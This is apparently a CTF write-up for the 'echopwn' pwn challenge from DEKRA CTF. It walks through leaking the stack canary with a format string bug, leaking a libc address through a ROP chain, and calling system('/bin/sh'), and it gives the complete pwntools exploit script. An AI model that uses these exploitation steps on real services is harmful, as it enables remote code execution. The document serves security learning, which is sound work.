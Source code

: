 <pre style="font-size: 0.4rem; text-align: center"> 
                                    WNKKKNW                                     
                                 WXxc'...':d0NW                                 
                              W0d:..'cxxdl,..'cx0N                              
                           NOo;..,lOXW    WKkl,..,cxKW                          
                       WXkl'..;o0N            NKxc,..,lkXW                      
                    WKxc'..:xKW                   N0xc'..;okXW                  
                 N0d;..'lkXW                          N0dc'..:oOXW              
              NOo,..,oON                                 WNOd:'.':xX            
            Kl'..;d0N                                        WXx' .dW           
           Wo  'xX                                         WKxc'..c0            
            Ko;..,cxKN                                  W0d:..'ckXW             
              WKkl,..,lxKW                           NOo,..,lON                 
                  W0l.  .,lkKW                   WXkl'..  .:xKN                 
                N0d;..'cl:'..;okXW            WKxc...:dOOd:'..,lxKW             
             NOo,..,lONW WXOo:...;oOXW     N0d;...cxKW    WXOo:...:0W           
           WO,..;d0N         WXOo;...;ok0ko,..,lOXW           Xx' .dW           
           Wx. 'o0N              WXkl;.....;o0N           WXkl,..:xX            
            W0d:'.,cx0N              WKOkOKW           WKx:..'ckXW              
               WXOo:'.,cxKN                         N0d;. .cON                  
                  W0l.  ..,lkKW                 WNOl,..,,..'cd0N                
               N0o;..'ckOxc'..,lkKW          WKxc'..:xKWWKxl,..,cx0N            
            WOl,..;oON     N0dc'..;lkKW   WKd:..'ckXW       NKxc. .oN           
           Wx. 'o0N           WNOd:'..;lol;..,oON           WXOl..'xW           
            0:..;oOXW             WXOo:'.':d0N           WXxc'.'ckXW            
             WKxc,.':oOXW             WNNNW           WKd:..,oON                
                 N0xc,.':d0N                       N0o;..;d0N                   
                    WN0d:'.'cd0N               WXkl,.':xKW                      
                        WN0d:'.,cx0N        WKxc'.'lkXW                         
                            WXOo:'.,cxKNWN0d:..,oONW                            
                                WXOo;'.,;,..;d0N                                
                                    WXOdookKW                                   

</pre>

This was a pwn challenge finally rated with 316 points at DEKRA CTF. There was no description.

They give us a zip file with the binary, libc.so.6 and the dynamic linker.

# First execution

When we first execute it we get:

> ❯ ./echopwn-bin
<br>echo> hello
<br>hello
<br>echo> hi

So it looks like we put some input that is written back to us and finally put something again and the program exit.

The input is reflected back to us so it looks like a **format string vulnerability**?

>❯ ./echopwn-bin
<br>echo> %x %x %x
<br>78252078 0 a24da980
<br>echo> yeah

Yes! That worked. We can't do anymore here. Let's move on to the disassembler.

# Reverse all the things

The dashboard of the binary showed us this information:

![](/./assets/imgs/echopwn-dashboard.png)

Wow, that looks pretty secure. Canary, NX bit, PIC...

If we want to make a **buffer overflow** we are going to need that **canary**. Luckly for us we know there is a **format string vulnerability** which will provides the solution for that problem! (At least we hope so)

Let's move to the main function

![](/./assets/imgs/echopwn-main.png)

Nothing interesting really. Let's check what that **doRead** does.

![](/./assets/imgs/echopwn-doread.png)

Well, we can see a **printf**, then a **gets**, another **printf** and finally a **gets** again. That matches what we saw when we first run the binary. 

Before leaving, it checks the canary so... yeah. Obviously we are dumping that canary.

# Brainstorming

So the question is, now what? Well, there is no hidden function which contains the flag, no file loaded, no nothing. So we have to pop a shell.

The easiest way is to use **libc** to call **execve** or **system** with **/bin/sh**. To do that, we need to know where libc is loaded that particular execution (remember PIC?). We can leak that address because we know we can overflow with that final gets (as well as the first one, but that's for other purposes)

But remember, there is **canary** so first we have to dump the canary (with the first gets) so the program doesn't break.

![](/./assets/imgs/echopwn-canary.jpg)


# Let's build the exploit

## Canary

First things first: the canary. We have to dump it to put it back when we overflow. We are using the format string to dump it. Let's fire up **gdb** to find the exact spot.

> I'm also using [GEF](https://github.com/hugsy/gef) which helps me with the debugging

Let's run it with:

`gdb echopwn`

Then:

`disass doRead`

Let's put a break at the end:

`b *doRead + 0x153`

And run it with `r`

Let's put a bunch of %lx (so we don't write over the canary):

![](/./assets/imgs/echopwn-format1.png)

And when we hit the breakpoint, check for $rbp - 0x8

![](/./assets/imgs/echopwn-format2.png)

Well, that doesn't match any of the ones dumped. Let's move to the next group. To access a specific item on the stack you can use: **%n$lx**, being **n** the number of the **nth item** on the stack so now we are sending: %5$lx %6$lx ...

On that iteration we don't get anything either. But finally:

```
echo> %10$lx %11$lx %12$lx %13$lx              
33312520786c2432 555500786c24 55554040 afbf17a0d8f2bb00

Breakpoint 1, 0x00005555555548c9 in doRead ()
gef➤  x/2x $rbp-0x8
0x7fffffffdbc8:	0xd8f2bb00	0xafbf17a0
```

So the canary is on the 13th position!

## Dump libc address

To dump the libc address we are going to print back to us the address of a function from libc. Then, because we have the binary file (libc.so.6), we can substract the base address of that function and get the offset.

We have `gets` there so let's use that function.

Remember! We have to redirect the execution back so the program doesn't exit!

## Pop that shell

To pop the shell, we are going to put the string '/bin/sh' into the RDI register and then call the `system` function from libc.

# Time to build the script

You know, pwntools.

```python
from pwn import *

p = process('./echopwn')
#p = remote('__________', _____)
elf = ELF('./echopwn')
libc = ELF('./.glibc/libc.so.6')
```

Get the canary and the address of the main function:

> I'm also getting the rbp adddress so the stack doesn't move to some weird address

```python
p.clean()
p.sendline('AAA.%13$lx.%14$lx.%15$lx')
data = p.recvuntil("\n")
canary = data.split(b'.')[1]
rbp = data.split(b'.')[1]
main = data.split(b'.')[3]
print('Canary is 0x' + canary.decode())
print('Main + 21 (0x0000000000000908) is 0x' + main.decode())
canary = int(canary, base=16)
main = int(main, base=16)
rbp = int(rbp, base=16)
```

Now, let's get the libc base address. First, we need to find a ROP gadget to put the address of `gets` into the RDI register:

> I used [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) to do this

```bash
$ ROPGadget --binary echopwn
...
0x0000000000000973 : pop rdi ; ret
0x000000000000068e : ret
...
```

We have the address, let's send it:

```python
binary_offset = main - 0x908
pop_rdi = p64(0x973 + binary_offset)

p.clean()
p.sendline(b'A' * 52 + p64(canary) + p64(rbp) + pop_rdi + p64(binary_offset + elf.got["gets"]) + p64(binary_offset + elf.symbols["puts"]) + p64(binary_offset +elf.symbols["main"]))
```

Now, the final part. Receive the address:

```python
glibc_dumped = p.recvuntil('\n')[:-1]

def pad_null_bytes(value):
    return value + b'\x00' * (8-len(value))

glibc_base_address = u64(pad_null_bytes(glibc_dumped)) - libc.symbols["gets"]
print('Libc is at: ', hex(glibc_base_address))
```

And send the final exploit to pop the shell:

```python
p.clean()
p.sendline('AAA.%13$lx.%14$lx.%15$lx')
data = p.recvuntil("\n")
canary = data.split(b'.')[1]
rbp = data.split(b'.')[1]
print('Canary is 0x' + canary.decode())
canary = int(canary, base=16)
rbp = int(rbp, base=16)
p.clean()
p.sendline(b'A' * 52 + p64(canary) + p64(rbp) + pop_rdi + p64(glibc_base_address + next(libc.search(b'/bin/sh'))) + p64(glibc_base_address + libc.symbols["system"]))
p.interactive()
```

Sweet!

![](/./assets/imgs/echopwn-final.png)